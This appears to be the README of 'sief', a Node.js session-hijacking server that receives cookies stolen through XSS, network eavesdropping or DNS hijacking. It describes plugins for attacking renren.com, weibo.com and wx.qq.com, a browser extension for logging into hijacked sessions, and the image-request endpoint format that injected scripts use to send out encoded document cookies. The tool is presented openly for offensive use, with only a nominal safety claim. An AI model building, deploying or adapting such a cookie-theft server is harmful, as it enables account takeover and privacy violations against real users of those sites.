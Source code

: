 sief
=============

NOTICE: This project is under development, nut ready to use yet.

A server listening to cookie submission to hijack session, supporting writing plugins for site specific attacks.

    sief = thief + safe

This is a project to steal sessions, and to make your site safe.

## Features

* Request to an image to upload cookies stolen by xss/network eavsdropping/dns hijack/other.
* Log persistence
* Prebuilt plugins to attack renren.com, weibo.com, wx.qq.com
* Write your own plugin to do other attacks you desired
* View real-time cookie submissions and login those hijacked sessions directly in browser with [Sief Chrome Extension](https://github.com/shaoshuai0102/sief-chrome-extension)

## Install

1. Install PhantomJS

2. Install sief

   `npm install sief -g`

## Usage

### Server

    Usage: sief [options] <plugin|dir ...>

    Options:

      -h, --help                   output usage information
      -V, --version                output the version number
      -i, --ignore-time [seconds]  specify seconds during which same requests will be ignored [300]
      -p, --port [port]            specify the port sief server listening to [3000]
      -l, --log-level [level]      set log level [INFO]


### Submit cookies

    GET /xxx.png?cookie=#cookies#&referer=#referer#&domain=#domani#

Parameters:

* `cookies` - Required. Encode cookies first, for example, `encodeURIComponent(document.cookies)`
* `referer` - If the attack is an xss exploit, referer will be retrieved from `headers.referer` directly, otherwise, specifiy it in query string.
* `domain` - Domain is calculated from referer, defaults to main domain, for example `qq.com`. IF you want to fire a attack to its subdomain(`wx.qq.com`), specify it in query string.